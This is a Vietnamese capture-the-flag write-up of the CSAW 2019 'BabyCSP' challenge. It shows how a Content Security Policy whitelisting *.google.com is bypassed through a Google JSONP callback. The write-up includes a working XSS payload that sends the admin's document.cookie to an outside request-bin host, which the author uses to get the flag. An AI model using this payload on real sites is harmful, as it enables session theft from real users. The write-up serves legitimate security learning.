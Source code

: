# CSAW CTF Qualification Round 2019

----
## BabyCSP ([Link](http://web.chal.csaw.io:1000/))
    Mà có vẻ tính đến thời điểm này thì link đóng mất tiêu rồi ...
    
- Nói chung thì cũng là lần đầu giải CTF online, văn kém nên viết writeup cũng hơi lủng củng... 1 phần thì cũng là do may mắn khi google nên rất nhanh mình đã tìm được hướng đi cho bài này, phần còn lại thì cũng giải khá nhiều bài XSS nên phần sau của bài CSP này của mình cũng khá nhanh. Cảm giác rất dễ chịu cho bài CTF online đầu tiên. Qua đến bài Unagi thì... mù tịt hướng đi... Dù đã làm nhiều về upload file liên quan tới image rồi nhưng với xml thì chưa bao giờ làm. Sau 1 đoạn thời gian google không có kết quả khả quan thì mình quyết định đi học bài để mai thi... Kết thúc kỷ niệm về bài giải CTF online...

- Mở đầu đề bài 1 đoạn CSP sau:

> Sơ bộ 1 chút thì Content Security Policy (CSP) là chính sách bảo mật nội dung, được sử dụng để xác định các nguồn nội dung an toàn trên website mà trình duyệt có thể tải về cho người dùng. CSP là biện pháp đối phó rất hiệu quả với kiểu hack chèn mã độc Cross Site Scripting (XSS).

[csp](image/csp.png)

- Chú ý đến đoạn: `script-src 'self' *.google.com`
    - Hiểu đơn giản 1 chút thì đoạn csp trên chỉ định rõ nguồn sử dụng Javascript hợp lệ là `*google.com`
        - Để hiểu rõ hơn thì: [link](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
- Vấn đề là bây giờ kiếm đâu ra nguồn Javascript của google và gắn đoạn payload của mình vô để bypass qua csp của bài... Thôi google để xem có tìm thấy gì đó hữu ích không...
- Mình là con người đơn giản, đề cho cái gì thì ghi sạch lên google để tìm thử: `bypass csp xss script src google.com`
- Mò 1 hồi thì cũng tìm thấy thông tin hữu ích... [Link](https://appio.dev/vulns/google-csp-evaluator/)
    - Để ý đoạn này: `The first one is that *.google-analytics.com hosts JSONP endpoints, that would allow us to bypass the CSP.`
    - Cũng như `*.google.com`, ta có thể bypass qua csp bằng JSONP endpoints

- Rất may là trong link đó họ cho cả 1 whitelist JSONP luôn, đỡ mất công tìm
    - Phân vân 1 hồi thì mình chọn link sau để thêm payload vào: `https://accounts.google.com/o/oauth2/revoke?callback=`
    - Test luôn, không nói nhiều, nhồi 1 đoạn Javascript đơn giản `alert(1)` vô link rồi submit xem có gì xảy ra không

    `<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>`
    - Vì viết writeup hơi muộn nên web đóng mất tiêu rồi. Ảnh nào có thì up luôn, ảnh nào không có thì đi mượn ké vậy...

    [alert](image/alert.png)
   - Thành công mỹ mãn, giờ thì dễ rồi. Tạo 1 requestsbin ngay và luôn để hứng flag thôi chứ làm gì
   - đoạn payload để get cookie admin của mình: `location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)`

        - Giải thích 1 chút thì hàm `location.replace` sẽ ngay lập tức dẫn client đến URL format `location.replace(URL)`, ở đây kèm theo hàm `document.cookie` nữa để GET ra cookie của admin`

- Payload cuối cùng để mình submit lên đó là:
`<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)"></script>`

- Tuy nhiên là có vấn đề nho nhỏ ở đây, mới đầu ta submit payload lên thì nó đi thẳng tới requestsbin luôn, tức là nó gửi cookie của ta lên requestsbin luôn, lấy làm gì nhỉ, bộ flag trong source luôn chắc...

- Bây giờ ra submit đại 1 cái gì đó lên, rồi nhấn vô `report to admin`, và bây giờ ta được chuyển qua link `http://web.chal.csaw.io:1000/report?id=52279` trong 1 khoảng khắc. Giờ rõ rồi, mỗi submit sẽ tạo 1 post chứa id riêng và khi report lên admin thì chỉ cần thay id là được.
- Giờ đơn giản rồi, submit lại payload và lấy ra id của nó. Thay vô link report rồi report lên admin lại là xong. Bây giờ lên requestsbin lấy flag thôi

[flag](image/flag.png)
